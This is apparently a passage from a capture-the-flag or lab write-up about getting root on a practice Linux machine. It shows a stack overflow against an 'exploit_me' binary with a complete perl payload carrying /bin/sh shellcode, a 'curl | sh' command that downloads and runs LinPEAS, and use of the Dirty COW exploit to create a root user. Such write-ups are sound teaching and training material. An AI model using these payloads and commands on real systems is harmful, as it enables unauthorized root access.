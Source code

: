 Now we need to find the ESP address.
To do it, we make our program crash and we run this command:

> dmesg | tail -1
[21309.218795] exploit_me[18468]: segfault at 46b0c031 ip 46b0c031 sp bffff6b0 error 14
> 

Our address is : bffff6b0
We have now all what we need to exploit our program.

Our exploit will look like to: [OFFSET][ESP ADDRESS][NOP CODE][SHELLCODE]
(A NOP code is an instruction to increment the instruction pointer (EIP).)

To easily construct our exploit, we use perl to generate a string.

```bash
./exploit_me perl -e 'print "A"x140 . "\\xb0\\xf6\\xff\\xbf" . "\\x90"x35 .  "\\x31\\xC0\\xB0\\x46\\x31\\xDB\\x31\\xC9\\xCD\\x80\\xEB\\x16\\x5B\\x31\\xC0\\x88\\x43\\x07\\x89\\x5B\\x08\\x89\\x43\\x0C\\xB0\\x0B\\x8D\\x4B\\x08\\x8D\\x53\\x0C\\xCD\\x80\\xE8\\xE5\\xFF\\xFF\\xFF\\x2F\\x62\\x69\\x6E\\x2F\\x73\\x68"'
```

Voila, we succesfully ran a shell into our program, with root privilege.

## Alternative method:

Another method to get root on the machine is to use LinPeas. Once logged in as any user, you can find vulnerability with it.

We download LinPeas using this command:  

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

The return gives an interesting result:

<aside>
💡 OS: Linux version 3.2.0-91-generic-pae (buildd@lgw01-15) (gcc version 4.6.3 (Ubuntu/Linaro 4.6.3-1ubuntu5) ) #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015
…..
[+] [CVE-2016-5195] dirtycow

</aside>

LinPeas tells us that the Linux version has a critical security breach. We then have an indication of the tool to use to exploit it (dirtycow).

We download dirtycow on the machine, compile it then execute it and we have a new user “firefart” who is root on the machine.